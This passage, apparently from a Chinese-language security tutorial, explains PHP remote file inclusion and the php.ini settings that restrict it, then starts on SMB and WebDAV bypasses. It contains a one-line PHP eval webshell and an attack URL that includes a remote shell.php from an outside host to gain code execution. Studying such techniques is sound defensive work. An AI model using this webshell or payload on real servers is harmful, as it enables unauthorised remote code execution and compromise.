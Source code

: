 ```
&lt;?php @eval($_POST['Qftm']);?&gt;
```

攻击者发起的恶意请求：`payload`

```
https://www.qftm.com/index.php?file=http://10.10.10.10/shell.php
```

通过上述请求，可以远程包含一个shell，一旦攻击者的恶意请求成功之后，可以达到任意代码执行漏洞也就是`RCE`。虽然用户没有对文件参数进行控制，但是想要得到一个真正的`RCE`还需要满足一个条件，如下`php.ini`配置：

```
allow_url_fopen=On
allow_url_include=On
```

只有当这两个配置设置成On时，最终的漏洞才能利用成功，遗憾的是PHP官方在 `php version 5.2` 之后默认的关闭了`allow_url_include`，是不是突然感觉没有了希望！！！不要放弃，下面利用我们强大的`Bypass`功能进行限制绕过。



## RFI 缺陷

对于RFI的缺陷，先来看一下PHP针对`allow_url_fopen`和`allow_url_include`的配置说明

`php7.x -&gt; php.ini`

```
;;;;;;;;;;;;;;;;;;
; Fopen wrappers ;
;;;;;;;;;;;;;;;;;;

; Whether to allow the treatment of URLs (like http:// or ftp://) as files.
; http://php.net/allow-url-fopen
allow_url_fopen=On

; Whether to allow include/require to open URLs (like http:// or ftp://) as files.
; http://php.net/allow-url-include
allow_url_include=Off
```

从配置中可以看到 `allow_url_fopen`和`allow_url_include`主要是针对两种协议起作用：`http://`、 `ftp://`。

PHP针对RFI URL包含限制主要是利用`allow_url_include=Off`来实现，将其设置为Off，可以让PHP不加载远程HTTP或FTP URL，从而防止远程文件包含攻击。那么，我们是不是可以这样想，有没有什么其它协议可以让我们去包含远程服务器文件，答案是肯定的，例如`SMB`、`WebDAV`等协议。

既然这样，攻击者就可以利用这个缺陷，使用相应的协议进行Bypass。在这个过程中，即使`allow_url_fopen`和`allow_url_include`都设置为Off，PHP也不会阻止相应的远程文件加载。



## RFI 绕过

在介绍`WebDAV Bypass`的时候先来简单了解一下`SMB Bypass`，因为他们利用道理都差不多。

### <a class="reference-link" name="SMB%20Bypass"></a>SMB Bypass
